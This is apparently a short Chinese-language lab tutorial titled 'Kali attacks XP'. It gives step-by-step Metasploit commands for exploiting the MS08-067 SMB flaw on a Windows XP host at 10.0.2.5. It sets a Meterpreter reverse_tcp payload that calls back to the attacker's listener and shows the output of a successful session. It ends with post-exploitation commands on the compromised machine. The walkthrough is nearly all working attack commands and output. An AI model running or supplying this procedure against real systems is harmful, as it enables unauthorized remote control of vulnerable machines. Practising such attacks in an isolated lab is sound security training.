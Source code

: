 ## Kali攻擊XP
---
【service postgresql start】先導入攻擊資料庫

【msfconsole】開啟攻擊面板
  
【use windows/smb/ms08_067_netapi】使用的漏洞

【show options】檢查設定
  
               Name     Current Setting  Required  Description
               ----     ---------------  --------  -----------
               RHOSTS                    yes       The target address range or CIDR identifier
               RPORT    445              yes       The SMB service port (TCP)
               SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

【set RHOSTS 10.0.2.5】 設定欲攻擊的IP

【check】 檢查是否有導入
 
【set payload windows/meterpreter/reverse_tcp】

【show options】 再次檢查
  
               Module options (exploit/windows/smb/ms08_067_netapi):

                 Name     Current Setting  Required  Description
                 ----     ---------------  --------  -----------
                 RHOSTS   10.0.2.5         yes       The target address range or CIDR identifier
                 RPORT    445              yes       The SMB service port (TCP)
                 SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


              Payload options (windows/meterpreter/reverse_tcp):

                 Name      Current Setting  Required  Description
                 ----      ---------------  --------  -----------
                 EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
                 LHOST                      yes       The listen address (an interface may be specified)
                 LPORT     4444             yes       The listen port


              Exploit target:

                 Id  Name
                 --  ----
                 0   Automatic Targetinge

【set LHOST attact ip】 設定攻擊者ip
  
【exploit】 攻擊開始

                [*] Started reverse TCP handler on 10.0.2.4:4444 
                [*] 10.0.2.5:445 - Automatically detecting the target...
                [*] 10.0.2.5:445 - Fingerprint: Windows XP - Service Pack 3 - lang:Chinese - Traditional / Taiwan
                [*] 10.0.2.5:445 - Selected Target: Windows XP SP3 Chinese - Traditional / Taiwan (NX)
                [*] 10.0.2.5:445 - Attempting to trigger the vulnerability...
                [*] Sending stage (179779 bytes) to 10.0.2.5
                [*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.5:1045) at 2020-10-19 11:01:38 -0400
                
---

## 此時以攻擊成功可控制XP                
                
---
【pwd】 Linux指令檢查正在的目錄
                
                meterpreter > pwd
                C:\WINDOWS\system32
                
【cd /】 前往根目錄

【mkdir 檔名】 創建資料夾

---
